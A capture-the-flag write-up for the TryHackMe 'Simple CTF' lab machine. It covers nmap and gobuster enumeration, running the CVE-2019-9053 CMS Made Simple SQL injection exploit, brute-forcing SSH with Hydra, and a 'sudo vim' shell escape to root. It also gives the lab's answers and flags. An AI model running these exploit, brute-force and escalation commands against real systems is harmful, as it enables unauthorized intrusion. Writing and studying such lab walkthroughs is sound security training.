



# Simple CTF Writeup:
	
Alright, lets get started!

## Enumeration:

### NMap Scan:

First things first, I started with the following NMap scan:

```shell
sudo nmap -sS -vv -sC -sS -sV -oN nmapout.txt {MACHINE_IP}
```

We have the following 3 ports open:
	
```
PORT     STATE SERVICE REASON         VERSION
21/tcp   open  ftp     syn-ack ttl 63 vsftpd 3.0.3
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)

```


(I have saved the complete NMap output in this repository under "nmapout.txt")


### GoBuster:
	
I ran the following GoBuster command:

```shell
gobuster -e -u {MACHINE_IP} -w dir_wordlist.txt -x .php,.txt,.js,.html
```

The initial scan returned the following:

```
http://{MACHINE_IP}/index.html (Status: 200)
http://{MACHINE_IP}/robots.txt (Status: 200)
http://{MACHINE_IP}/simple (Status: 301)
```

So I decided to run a GoBuster scan on the /simple directory. It returned the following:
	
```
http://{MACHINE_IP}/simple/index.php (Status: 200)
http://{MACHINE_IP}/simple/modules (Status: 301)
http://{MACHINE_IP}/simple/uploads (Status: 301)
http://{MACHINE_IP}/simple/doc (Status: 301)
http://{MACHINE_IP}/simple/admin (Status: 301)
http://{MACHINE_IP}/simple/assets (Status: 301)
http://{MACHINE_IP}/simple/lib (Status: 301)
http://{MACHINE_IP}/simple/install.php (Status: 301)
http://{MACHINE_IP}/simple/config.php (Status: 200)
http://{MACHINE_IP}/simple/tmp (Status: 301)
```
	
## Answers:
	
### How many services are running under port 1000?
Our scan showed ports 21, 80, and 2222. Since 2222 is above 1000, that leaves us with:
```
Answer:
2
```

### What is running on the higher port?
Our scan shows that port 2222 is running OpenSSH. So the answer:

```
Answer:
ssh
```

### What's the CVE you're using against the application? 
In order to find what CVE we are going to use, we need to look through the site and see if we can find any possible vulnerabilities.

I did some exploring through the pages that came up during my GoBuster scan. This was the first page that caught my interest: 
**http://{MACHINE_IP}/simple**



It appears that this site is using "CMS Made Simple (CMSMS)" as it's content-management-system(CMS). I scrolled down the page, and was able to find what version of this software is: 



The version of this software is: **CMS Made Simple version 2.2.8**

Now that we know the software and version, I tried searching through a linux terminal program called **SearchSploit**, this program is an awesome way to find vulnerabilities in a given software.

In the terminal, I entered the following command:

```shell
searchsploit 'CMS Made Simple 2.2.8'
```

I recieved the following output:
	
```
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
CMS Made Simple < 2.2.10 - SQL Injection      | php/webapps/46635.py
---------------------------------------------- ---------------------------------
```

I looked up the Exploit Title on Google, and clicked on the following page:

[exploit-db](https://www.exploit-db.com/exploits/46635)

It lists near the top, that the CVE number is: 2019-9053.

So the answer is:

```
CVE-2019-9053 
```

### To what kind of vulnerability is the application vulnerable?

The vulnerability described in CVE-2019-9053 is a "SQL Injection", the answer is shorthand for that which is:
```
sqli
```

### What's the password?
Since TryHackMe references CVE-2019-9053, I'm going to assume that we can use this vulnerability to retrieve the password...

"SQL Injection" should always make a pen-tester's ears perk up! You can see that SearchSploit references a python file: "46635.py". That number refers to the "EDB-ID" of this particular exploit. We can have SearchSploit copy this python file to our current working directory with the following command:
```shell
searchsploit -m 46635
```
Let's try out this python script! **NOTE:** This script was not made for python3, I made some modifications to the script to allow it to work for python3.

```shell
python3 46635.py -u http://10.10.117.187/simple/ -w rockyou.txt -c
```

This script was not very stable. I had to run it a few times, and I was never able to get it to crack the password as advertised. But I did successfully get the following info:

```	
salt = 1dac0d92e9fa6bb2
username = mitch
email = admin@admin.com
```

Since I do have the username, I used Hydra to crack the SSH password:

**NOTE:** Don't forget that SSH is running on port **2222**, not the usual port **22**.
	
```shell
hydra -l mitch -P rockyou.txt ssh://{MACHINE_IP}:2222
```

Got the password in less than a minute!

```
[2222][ssh] host: {MACHINE_IP}   login: mitch   password: secret
```

So the password is:

```secret
```

### Where can you login with the details obtained?

We used the following protocol to login with the previous credentials:
```
ssh
```

### What's the user flag?
I SSH'd into the machine with the following:

```
ssh -p 2222 mitch@{MACHINE_IP}
```

...and I'm in!

I type in the "ls" command, and I see the "user.txt" file. I then type "cat user.txt", and get the following:

```
G00d j0b, keep up!
```

### Is there any other user in the home directory? What's its name?
I typed in the following:

```
ls ../
```

and recieved the following:

```
mitch  sunbath
```

So the other user is

```
sunbath
```


### What can you leverage to spawn a privileged shell?
To start off, I checked to see what programs that the current user, mitch, could run:

```shell
sudo -l
```

...and recieved the following:

```
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

That was easy! It looks like **"vim"** is our answer!

### What's the root flag?
Since we know that we are able to run Vim as root, I entered the following command:

```
sudo vim -c ':!/bin/sh'
```

This code starts Vim as super-user, then performs a command in Vim(as a super-user), and the command we performed is starting a shell. So, we'll see if we find any success...

It returned the following:



Never mind that gibberish on the right, that hash-mark on the very right is very promising! To verify if I'm root, I typed the following:

```shell
whoami
```

...and recieved the following:

```
root
```

I am root!


**Disclaimer:** I apologize, I know that was cheesy, but I couldn't resist.

Now that I am root, I will search for the flag with the following script:

```
find / -type f -name 'root.txt' 2>/dev/null
```

...and it returned:

```
/root/root.txt
```

...open the file, and our flag is:

```
W3ll d0n3. You made it!
```

We did it! I hope this was helpful!
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	


	
	
	
	
	
	
	
	
	
	
	
	
	
